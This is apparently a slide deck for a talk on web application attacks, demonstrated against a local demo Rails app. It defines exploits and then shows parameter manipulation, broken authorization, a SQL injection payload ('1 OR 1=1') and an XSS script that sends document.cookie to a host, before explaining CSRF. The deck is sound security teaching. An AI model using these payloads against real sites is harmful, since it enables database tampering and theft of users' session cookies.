



!SLIDE bullets incremental small
## Exploits ##
* > Piece of *software*, a *chunk of data*, or *sequence of commands*
* > that *takes advantage* of a *bug*, *glitch or vulnerability*  
* > in order to *cause* *unintended behavior* to occur on computer software, hardware, or something electronic.

!SLIDE bullets incremental small
## ... ##
* > Includes such things as *gaining control* of a computer system or 
* > allowing *privilege escalation* or a *denial of service attack*.

!SLIDE
### Parameter Manipulation ##
	@@@ html
	<form accept-charset="UTF-8" action="/users" method="post">
	<input id="user_email" name="user[email]" size="30" type="text" value="" />
	<input id="user_password" name="user[password]" size="30" type="password" />
	<input type="submit" value="Create" />
	</form>

!SLIDE
    @@@ html
    <select id="user_role_id" name="user[role_id]">

!SLIDE full-page

!SLIDE full-page

!SLIDE bullets incremental
### Broken Authorization ###
* Use *public* computer, you do not follow *log out* link and close browser. Another person *checks* that computer *browsing history*
* http://localhost:3000/raises/approve/**12**

!SLIDE bullets incremental
### SQL Injection ###
* What *address* is *search* going through ...
* http://localhost:3000/raises/search?utf8=%E2%9C%93&search_raise=**1000.00**
* *Testing the waters*
* http://localhost:3000/raises/search?utf8=%E2%9C%93&search_raise=**1'**

!SLIDE full-page

!SLIDE
### Lets scape a query snippet ###
    @@@ javascript
    alert(escape('1 OR 1=1'))

!SLIDE bullets incremental
* http://localhost:3000/raises/search?utf8=%E2%9C%93&search_raise=**1+OR+1%3D1**
* *Surprise!*

!SLIDE full-page

!SLIDE bullets incremental small
### Cross-Site Scripting ###
* > Type of computer security *vulnerability* typically found in *web* applications 
* > that *enables* malicious attackers to *inject client-side script* into web pages viewed by other users.

!SLIDE bullets incremental
### Harming script ###
* &lt;script&gt;document.write('*&lt;img src="http://localhost:80/*' + **document.cookie** + '"* &gt;*')&lt;/script&gt;

!SLIDE full-page

!SLIDE full-page

!SLIDE full-page

!SLIDE
    @@@ html
    <tr>
      <td><a href="/users/2">poor@test.com</a></td>
      <td></td>
      <td>Employee</td>
      <td>5.0</td>
      <td>
        <a href="/users/2">Show</a>
        |
        <a href="/users/2/edit">Edit</a>
        |
        <a href="/users/2" data-confirm="Are you sure?" data-method="delete" rel="nofollow">Destroy</a>
      </td>
    </tr>

!SLIDE bullets incremental small
### Cross-Site Request Forgery ###
* > Also known as a *one-click attack* or *session riding* and abbreviated as CSRF or XSRF
* > Type of *malicious exploit* of a website whereby *unauthorized commands* are *transmitted from* a user that the *website trusts*.

!SLIDE bullets incremental
### XSS vs CSRF ###
* *XSS* exploits the trust a *client* has *for* a *site*
* *CSRF* exploits the trust a *site* has for a *client*
